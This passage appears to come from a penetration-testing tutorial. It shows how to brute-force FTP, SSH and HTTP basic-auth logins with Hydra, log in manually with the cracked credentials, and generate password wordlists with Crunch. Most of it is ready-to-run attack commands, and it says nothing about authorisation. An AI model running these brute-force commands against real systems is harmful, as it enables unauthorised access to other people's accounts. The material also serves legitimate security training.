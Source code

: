 **What This Gives You:**
- List of targets with login services
- Service versions for targeted attacks
- Authentication methods supported
- Network topology understanding

#### **Phase 2: Targeted Attacks with Hydra**
```bash
# Based on Nmap results, attack each service type
# FTP servers found
hydra -L users.txt -P passwords.txt target1 ftp
hydra -L users.txt -P passwords.txt target2 ftp

# SSH servers found
hydra -L users.txt -P passwords.txt target3 ssh
hydra -L users.txt -P passwords.txt target4 ssh

# Web servers with basic auth
hydra -L users.txt -P passwords.txt target5 http-get /admin
```

**Integration Benefits:**
- **Targeted Approach:** Focus attacks on confirmed services
- **Efficient Testing:** Only attack services that exist
- **Service-Specific Wordlists:** Use appropriate credentials for each service type

#### **Phase 3: Manual Verification and Exploitation**
```bash
# After Hydra finds credentials, verify manually
# FTP access testing
ftp target1
# Username: found_user
# Password: found_pass

# SSH access testing
ssh found_user@target3
# Verify shell access and privileges

# Web access testing
curl -u found_user:found_pass http://target5/admin
# Confirm web panel access
```

### **🔧 Integration with Password Generation Tools:**

#### **Using Crunch to Generate Custom Wordlists:**
```bash
# Generate numeric passwords
crunch 4 6 0123456789 -o numbers.txt
# Create 4-6 digit number combinations

# Use generated list with Hydra
hydra -L users.txt -P numbers.txt target_ip ftp
# Test against numeric password policies

# Generate date-based passwords
crunch 8 8 -t @@@@%%%% -o year_pass.txt
# Format: 4 letters + 4 numbers (like pass2024)

# Use with Hydra
hydra -L users.txt -P year_pass.txt target_ip ssh
```
